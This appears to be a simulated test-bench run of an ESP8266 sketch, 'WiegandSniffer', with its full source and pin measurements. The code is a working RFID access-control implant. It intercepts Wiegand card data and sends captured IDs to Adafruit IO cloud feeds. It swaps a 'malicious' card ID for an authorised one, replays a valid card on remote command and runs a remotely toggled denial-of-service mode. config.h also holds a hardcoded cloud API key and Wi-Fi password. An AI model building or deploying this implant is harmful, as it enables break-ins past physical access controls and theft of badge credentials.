
Bench run of a sketch on a simulated ESP8266 (NodeMCU). On the bench: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW), the last lines printed to the serial monitor. The inputs (shaded band) are chosen by the test bench; at power-on: D2 (PIN_DATA1_IN) HIGH, D1 (PIN_DATA0_IN) HIGH.

Above: at 0.6 s.
At 3.2 s:

3.3 s: the phone or cloud app sets rfidthief.replayattack to 0
At 4.8 s:

5.1 s: the phone or cloud app sets rfidthief.dosattack to 0
6.6 s: the phone or cloud app sets rfidthief.dosattack to 1
Timing chart, 0 to 9.6 s (numbered marks = the images above; inputs shaded):


The sketch:

WiegandSniffer.ino
```cpp
#include "config.h"
#include <map>
#include <bitset>

#define PIN_DATA0_IN D1
#define PIN_DATA1_IN D2
#define PIN_DATA0_OUT D5
#define PIN_DATA1_OUT D6

#define MAX_CARD_BITS 32
#define pulseWidth 1000     // uS
#define pulseInterval 10000 // uS

byte tagSize = MAX_CARD_BITS;
char tagData[MAX_CARD_BITS];
unsigned int tagInt = 0;
unsigned int tagIndex = 0;
bool receivingData = false;

bool dosMode = false;

void ICACHE_RAM_ATTR writeToBuffer0() {
  receivingData = true;
  tagData[tagIndex] = '0';

  tagIndex = (tagIndex == MAX_CARD_BITS - 1) ? 0 : tagIndex + 1;
}

void ICACHE_RAM_ATTR writeToBuffer1() {
  receivingData = true;
  tagData[tagIndex] = '1';

  tagIndex = (tagIndex == MAX_CARD_BITS - 1) ? 0 : tagIndex + 1;
}

std::map<int, int> IDs =
{
  {8139252, 8139252}, // Good ID, Good ID
  {8126727, 8126727}, // Bad ID, Bad ID
  {8073371, 8139252}, // Malicious ID, Good ID
};

AdafruitIO_Feed *inputID = io.feed("rfidthief.inputid");
AdafruitIO_Feed *outputID = io.feed("rfidthief.outputid");
AdafruitIO_Feed *replay = io.feed("rfidthief.replayattack");
AdafruitIO_Feed *dos = io.feed("rfidthief.dosattack");


void setup() {
  Serial.begin(115200);

  pinMode(PIN_DATA0_IN, INPUT);
  pinMode(PIN_DATA1_IN, INPUT);
  pinMode(PIN_DATA0_OUT, OUTPUT);
  pinMode(PIN_DATA1_OUT, OUTPUT);
  pinMode(LED_BUILTIN, OUTPUT);
  digitalWrite(PIN_DATA0_OUT, HIGH);
  digitalWrite(PIN_DATA1_OUT, HIGH);

  attachInterrupt(digitalPinToInterrupt(PIN_DATA0_IN), writeToBuffer0, FALLING);
  attachInterrupt(digitalPinToInterrupt(PIN_DATA1_IN), writeToBuffer1, FALLING);

  Serial.print("Connecting to Adafruit IO");
  io.connect();

  replay->onMessage(replayAttack);
  dos->onMessage(dosAttack);

  // wait for a connection
  while(io.status() < AIO_CONNECTED) {
    Serial.print(".");
    digitalWrite(LED_BUILTIN, LOW);
    delay(500);
    digitalWrite(LED_BUILTIN, HIGH);
    delay(500);
  }

  digitalWrite(LED_BUILTIN, LOW);

  // we are connected
  Serial.println();
  Serial.println(io.statusText());

  dos->get();
}

void loop() {
  io.run();

  if (receivingData && tagIndex == 0) {
    receivingData = false;
    printTag();

    Serial.println(dosMode);

    int output = (dosMode) ? 0000000 : IDs.at(tagInt);
    inputID->save(tagInt);
    outputID->save(output);

    writeWiegand(output);
  }
}

void printTag() {
  Serial.println("Input:");
  for (int i = 0; i < MAX_CARD_BITS; i++) {
    Serial.print(tagData[i]);
  }

  tagInt = (int) strtol(tagData, NULL, 2);
  Serial.print(" (");
  Serial.print(tagInt);
  Serial.println(")");
}


void writeWiegand(int data) {
  std::string outputData = std::bitset<32>(data).to_string();
  Serial.println("Output:");
  Serial.print(outputData.c_str());
  Serial.print(" (");
  Serial.print(data);
  Serial.println(")");

  for (int i = 0; i < MAX_CARD_BITS; i++) {
    if (outputData.at(i) == '0') {
      digitalWrite(PIN_DATA0_OUT, LOW);
      delayMicroseconds(pulseWidth);
      digitalWrite(PIN_DATA0_OUT, HIGH);
    }
    else {
      digitalWrite(PIN_DATA1_OUT, LOW);
      delayMicroseconds(pulseWidth);
      digitalWrite(PIN_DATA1_OUT, HIGH);
    }

    delayMicroseconds(pulseInterval);
  }
}

void replayAttack(AdafruitIO_Data *data) {
  Serial.println("Performing Replay Attack!");

  writeWiegand(8139252);
}

void dosAttack(AdafruitIO_Data *data) {
  dosMode = (data->toPinLevel() == HIGH) ? true : false;
  if (dosMode) {
    Serial.println("Performing DOS Attacks!");
  } else {
    Serial.println("Stopping DOS Attacks!");
  }
}
```

config.h
```cpp
/************************ Adafruit IO Config *******************************/

// visit io.adafruit.com if you need to create an account,
// or if you need your Adafruit IO key.
#define IO_USERNAME "ZeroState"
#define IO_KEY "aio_aTBT888pyZxQ9LONn0SIuaJILzak"

/******************************* WIFI **************************************/

// the AdafruitIO_WiFi client will work with the following boards:
//   - HUZZAH ESP8266 Breakout -> https://www.adafruit.com/products/2471
//   - Feather HUZZAH ESP8266 -> https://www.adafruit.com/products/2821
//   - Feather HUZZAH ESP32 -> https://www.adafruit.com/product/3405
//   - Feather M0 WiFi -> https://www.adafruit.com/products/3010
//   - Feather WICED -> https://www.adafruit.com/products/3056
//   - Adafruit PyPortal -> https://www.adafruit.com/product/4116
//   - Adafruit Metro M4 Express AirLift Lite ->
//   https://www.adafruit.com/product/4000
//   - Adafruit AirLift Breakout -> https://www.adafruit.com/product/4201
//   - Adafruit AirLift Shield -> https://www.adafruit.com/product/4285
//   - Adafruit AirLift FeatherWing -> https://www.adafruit.com/product/4264

#define WIFI_SSID "RFIDThief"
#define WIFI_PASS "ILoveWiegand"

// uncomment the following line if you are using airlift
// #define USE_AIRLIFT

// uncomment the following line if you are using winc1500
// #define USE_WINC1500

// uncomment the following line if you are using mrk1010 or nano 33 iot
//#define ARDUINO_SAMD_MKR1010

// comment out the following lines if you are using fona or ethernet
#include "AdafruitIO_WiFi.h"

#if defined(USE_AIRLIFT) || defined(ADAFRUIT_METRO_M4_AIRLIFT_LITE) ||         \
    defined(ADAFRUIT_PYPORTAL)
// Configure the pins used for the ESP32 connection
#if !defined(SPIWIFI_SS) // if the wifi definition isnt in the board variant
// Don't change the names of these #define's! they match the variant ones
#define SPIWIFI SPI
#define SPIWIFI_SS 10 // Chip select pin
#define NINA_ACK 9    // a.k.a BUSY or READY pin
#define NINA_RESETN 6 // Reset pin
#define NINA_GPIO0 -1 // Not connected
#endif
AdafruitIO_WiFi io(IO_USERNAME, IO_KEY, WIFI_SSID, WIFI_PASS, SPIWIFI_SS,
                   NINA_ACK, NINA_RESETN, NINA_GPIO0, &SPIWIFI);
#else
AdafruitIO_WiFi io(IO_USERNAME, IO_KEY, WIFI_SSID, WIFI_PASS);
#endif
/******************************* FONA **************************************/

// the AdafruitIO_FONA client will work with the following boards:
//   - Feather 32u4 FONA -> https://www.adafruit.com/product/3027

// uncomment the following two lines for 32u4 FONA,
// and comment out the AdafruitIO_WiFi client in the WIFI section
// #include "AdafruitIO_FONA.h"
// AdafruitIO_FONA io(IO_USERNAME, IO_KEY);

/**************************** ETHERNET ************************************/

// the AdafruitIO_Ethernet client will work with the following boards:
//   - Ethernet FeatherWing -> https://www.adafruit.com/products/3201

// uncomment the following two lines for ethernet,
// and comment out the AdafruitIO_WiFi client in the WIFI section
// #include "AdafruitIO_Ethernet.h"
// AdafruitIO_Ethernet io(IO_USERNAME, IO_KEY);
```

Measured:
- after the input at 3.3 s, D6 (PIN_DATA1_OUT): 255/255 → 231/255 after 0.15 s, → 255/255 0.04 s later, → 236/255 0.13 s later, → 255/255 0.04 s later; D5 (PIN_DATA0_OUT): 255/255 → 229/255 after 0.07 s, → 236/255 0.04 s later, → 255/255 0.04 s later
